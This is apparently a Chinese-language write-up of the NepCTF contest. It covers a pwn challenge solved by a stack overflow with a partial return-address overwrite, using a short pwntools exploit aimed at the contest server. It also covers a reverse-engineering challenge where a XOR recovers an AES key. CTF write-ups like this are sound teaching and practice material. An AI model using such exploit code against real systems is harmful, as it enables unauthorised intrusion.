 ```yaml
---
title: NepCTF
categories: 
    - 比赛WriteUp
    - NepCTF
---
```



# Pwn
<!--more-->
## xhh

![20210322132920](https://raw.githubusercontent.com/YTrick/image/branch/image/20210322132920.png)

栈溢出，填充0x10，然后找到system cat flag函数，据地址随机化后字节不变，小端更改地址，当图片刷到小蝌蚪的图案便getshell

exp:
```
from pwn import *
context.arch = 'amd64'
context.log_level='debug'

#p = process('./xhh')
p = remote('node2.hackingfor.fun',35402 )
#p = remote('127.0.0.1',12345)

payload = p64(0) + p64(1) + b"\xE1"

p.send(payload)

p.interactive()
```


# Re

## hardcsharp

```c#
private static void Main(string[] args)
{
    AesClass class2 = new AesClass();
    string key = "";
    string strB = "1Umgm5LG6lNPyRCd0LktJhJtyBN7ivpq+EKGmTAcXUM+0ikYZL4h4QTHGqH/3Wh0";
    byte[] buffer = new byte[] { 
        0x51, 0x52, 0x57, 0x51, 0x52, 0x57, 0x44, 0x5c, 0x5e, 0x56, 0x5d, 0x12, 0x12, 0x12, 0x12, 0x12,
        0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12
    };
    Console.WriteLine("Welcome to nepnep csharp test! plz input the magical code:");
    string str = Console.ReadLine();
    if (str.Length != 0x25)
    {
        Console.WriteLine("Nope!");
        Console.ReadKey();
    }
    else if ((str.Substring(0, 4) != "Nep{") || (str[0x24] != '}'))
    {
        Console.WriteLine("Nope!");
        Console.ReadKey();
    }
    else
    {
        for (int i = 0; i < 0x20; i++)
        {
            key = key + Convert.ToChar((int) (buffer[i] ^ 0x33)).ToString();
        }
        if (string.Compare(class2.AesEncrypt(str, key), strB) == 0)
        {
            Console.WriteLine("wow, you pass it!");
            Console.ReadKey();
        }
        else
        {
            Console.WriteLine("Nope!");
            Console.ReadKey();
        }
    }
}
```

反编译出c#代码

写exp：
```
a = [0x51, 0x52, 0x57, 0x51, 0x52, 0x57, 0x44, 0x5c, 0x5e, 0x56, 0x5d, 0x12, 0x12, 0x12, 0x12, 0x12,
        0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12]

for i in range(len(a)):
    print(chr(a[i] ^ 0x33),end="")
```

```
λ python3 test.py
badbadwomen!!!!!!!!!!!!!!!!!!!!!
```

Aes加密网站一波：

![20210322133852](https://raw.githubusercontent.com/YTrick/image/branch/image/20210322133852.png)